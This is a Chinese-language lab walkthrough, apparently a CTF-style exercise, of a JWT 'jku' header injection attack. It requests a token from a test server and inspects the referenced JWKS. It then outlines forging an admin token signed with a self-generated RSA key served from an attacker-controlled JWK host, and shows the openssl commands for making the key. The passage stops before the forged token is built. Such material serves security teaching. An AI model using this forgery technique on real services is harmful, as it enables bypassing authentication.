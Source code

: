 

#### 实验过程

```sh
curl http://192.170.138.3:8080/issue
```

响应得到JWS

使用得到的JWS到[https://jwt.io](https://jwt.io/)网站上解码

![image-20210331200027003](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210331200027003.png)



该JWT使用RSASHA256进行加密，并且jku指向了如下地址：

```
http://witrap.com:8000/jwks.json
```



直接请求该jwk

```sh
 curl http://witrap.com:8000/jwks.json
```

![image-20210331200408236](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210331200408236.png)



得到可以看到RSA加密的n和e都在里面。

我们的目标是以admin角色访问到/goldenticket，所以这里可以利用上面的攻击方式。

具体流程如下：

1. 1.本地生成自己的公私钥对
2. 2.搭建本地恶意服务器
3. 3.使用自己的n和e伪造一个JWK并放在恶意服务器上
4. 4.利用公私钥伪造JWS，将role字段改成admin，jku指向该恶意服务器上的JWK文件
5. 5.带上JWS访问/goldenticket



##### 生成RSA公私钥对

```sh
openssl genrsa -out keypair.pem 2048
```

产生一个2048位的密钥

```sh
openssl rsa -in keypair.pem -pubout -out public.crt
```

根据密钥产生公钥

```sh
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkc8.key
```

---